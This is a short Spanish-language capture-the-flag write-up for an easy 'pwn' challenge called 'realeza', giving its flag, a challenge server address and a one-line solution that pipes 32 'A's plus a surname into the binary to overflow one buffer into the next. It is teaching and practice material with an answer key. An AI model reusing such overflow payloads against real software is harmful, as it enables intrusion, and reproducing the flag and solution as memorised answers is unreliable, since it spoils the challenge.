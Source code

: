 # Nombre: `realeza`
### Dificultad: `fácil`
### Categoría: `pwn`
### Autor: [Cae](https://c4ebt.github.io/)
### Flag: `DCCTF{b0f_l4_b4se_d3_t0d0_3xpl0it}`

### Descripción:
La reina ha muerto, dejando tras de sí un sinnúmero de secretos a los que solo la realeza puede acceder a través de este portal. Podrás hackearlo? `nc 104.237.138.109 5002`

### Hint 1:
`buffer overflow`

### Solución:
Overflow al buffer de nombre para sobreescribir el apellido.
`python -c 'print("A"*32+"Pérez")' | ./realeza`
